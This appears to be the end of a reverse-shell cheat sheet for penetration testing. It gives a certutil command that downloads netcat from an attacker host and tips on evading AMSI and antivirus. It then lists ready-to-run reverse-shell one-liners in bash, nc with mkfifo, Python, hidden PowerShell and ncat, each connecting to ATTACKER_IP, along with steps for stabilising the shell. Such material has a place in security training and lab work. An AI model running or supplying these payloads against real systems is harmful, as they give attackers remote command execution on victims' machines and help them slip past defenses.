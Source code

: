 Windows target download:
```cmd
certutil -urlcache -f http://ATTACKER_IP:8000/nc64.exe nc64.exe
```

## Practical tips
- Choose egress-friendly ports (443/80/53/123) if 4444 is blocked; avoid ephemeral ranges in use by the target.
- Confirm your correct LHOST (especially VPN tun0) before listening.
- If netcat lacks -e, use mkfifo method or Python/Perl/PHP alternatives.
- For web injections, URL-encode payloads or wrap them in sh -c '...'.
- Use rlwrap to improve basic nc shells; upgrade to PTY quickly for stability.
- If the shell drops, try a different port/protocol or alternate payload.
- On Windows, PowerShell is ubiquitous; use -NoP -NonI -W Hidden -Exec Bypass to reduce friction. If AMSI/AV interferes, use more benign tools (nc) or encode commands.
- Keep payloads short and reliable; test locally when possible.

## Minimal cheat sheet (one-screen flow)
Attacker listener:
```bash
rlwrap -cAr nc -lvnp 4444
```

Linux bash reverse:
```bash
bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1
```

Linux nc (no -e) fallback:
```bash
mkfifo /tmp/f; nc ATTACKER_IP 4444 < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```

Linux python reverse:
```bash
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("ATTACKER_IP",4444));[os.dup2(s.fileno(),fd) for fd in(0,1,2)];pty.spawn("/bin/bash")'
```

Windows PowerShell reverse:
```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "$c=New-Object Net.Sockets.TCPClient('ATTACKER_IP',4444);$s=$c.GetStream();[byte[]]$b=0..65535|%{0};while(($i=$s.Read($b,0,$b.Length)) -ne 0){$d=(New-Object Text.ASCIIEncoding).GetString($b,0,$i);$r=(iex $d 2>&1|Out-String);$s.Write(([Text.Encoding]::ASCII).GetBytes($r),0,$r.Length)}$c.Close()"
```

Windows ncat (if available):
```cmd
ncat.exe ATTACKER_IP 4444 -e cmd.exe
```

Upgrade TTY (Linux):
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'; export TERM=xterm
# Ctrl+Z, then:
stty raw -echo; fg; reset; stty rows 50 cols 120
```
